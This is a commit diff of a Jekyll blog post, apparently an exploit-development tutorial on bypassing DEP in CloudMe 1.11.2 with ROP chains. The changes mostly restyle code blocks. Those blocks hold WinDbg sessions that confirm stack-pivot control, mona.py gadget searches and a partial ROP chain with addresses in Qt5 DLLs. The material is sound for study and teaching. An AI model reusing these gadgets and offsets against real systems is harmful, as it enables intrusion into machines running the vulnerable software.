

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 900 px high, scrolled down 39009 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
DEP Bypass using ROP chains

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -1045,12 +1045,12 @@
 As we see, the <b>ESP</b> register points to <b>0x0022d694</b> which contains the pattern <b>35624334</b> (offset <b>0x224</b> from the beginning of the payload) ,which is expected considering we are jumping extra <b>548</b> bytes from the beginning of the payload ( <b>1916 - 1368</b> ).
 </p>
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> ? 0022d694 - 0022d470
 Evaluate expression: 548 = 00000224
 0:000> ? 0022d484 - esp
 Evaluate expression: 0 = 00000000
-```
+</pre>
 
 <p align="justify">
 At this point we are confident that we are moving in the right way. Furthermore, we should create another proof of concept script in order to see that we have full control when performing our stack pivot. All we want now is to find our landing location where we will put our <b>ROP</b> chain to bypass <b>DEP</b> protection.
@@ -1086,7 +1086,7 @@
 Below is the debugging <b>WinDbg</b> session corresponding to the PoC exploit above, that proves the successful pivoting
 </p>
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:016> bp 0x6998fb2e
 *** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Users\pentest\AppData\Local\Programs\CloudMe\CloudMe\Qt5Network.dll -
 0:016> bl
@@ -1133,7 +1133,7 @@
 eip=42424242 esp=0022d698 ebp=41414141 iopl=0 nv up ei pl nz ac pe nc
 cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000216
 42424242 ?? ???
-```
+</pre>
 
 <p align="justify">
 As we see above, we have landed precisely into our placeholder at <b>"BBBBB"</b>. At this point we are ready to start building the ROP chain to bypass DEP, but before doing this we will search for gadgets to dynamically load the address of <b>VirtualProtect</b> function.
@@ -1158,16 +1158,16 @@
 </p>
 
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0022ED28 |75C44543 CEÄu kernel32.GetFullPathNameW
-```
+</pre>
 
 We can confirm that this address is referring at a **kernel32** function by using the following command
 
-```
-0:000\> dds
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
+0:000> dds
 0022ED28 0022ed28 75c44543 kernel32!GetFullPathNameWStub [...]
-```
+</pre>
 
 At this point, we need to figure out how to:
 
@@ -1177,11 +1177,11 @@
 
 Before proceeding any further, let’s find all suitable ROP gadgets using **mona.py** as follows:
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0:000> !load pykd.pyd
 0:000> !py mona rop -n -o
 [...]
-```
+</pre>
 
 <p align="justify">
 After a while we open <b>rop_suggestions.txt</b> and <b>rop.txt</b> in mona’s output directory ( <b>WinDbg</b> Debugger’s program folder). First let’s figure out a way to get the current stack address into <b>EAX</b> register. <b>EAX</b> is the register of choice because there are available gadgets of the following instruction <b>MOV EAX,DWORD PTR [EAX]</b> which will allow us to load the <b>kernel32</b> address into <b>EAX</b>. Before searching for suitable gadgets, we must also refer to the Module info inside the <b>rop_suggestions.txt</b> file in order to check which <b>.dll</b> has no restrictions. We found that the following <b>.dlls</b> have no restrictions
@@ -1203,7 +1203,7 @@
 </p>
 
 
-```
+<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 0x699012c9 # POP EBP # RETN [Qt5Network.dll]
 0x0385FF88 # Offset
 0x68a9559e # XCHG EAX,EBP # RETN [Qt5Core.dll]
@@ -1211,7 +1211,7 @@
 0x0362fffc # Offset
 0x68ad422b # SUB EAX,ECX # RETN [Qt5Core.dll]
 0x68ae8a22 # MOV EAX,DWORD PTR [EAX] # RETN [Qt5Core.dll]
-```
+</pre>
 
 
 <p align="justify">
````
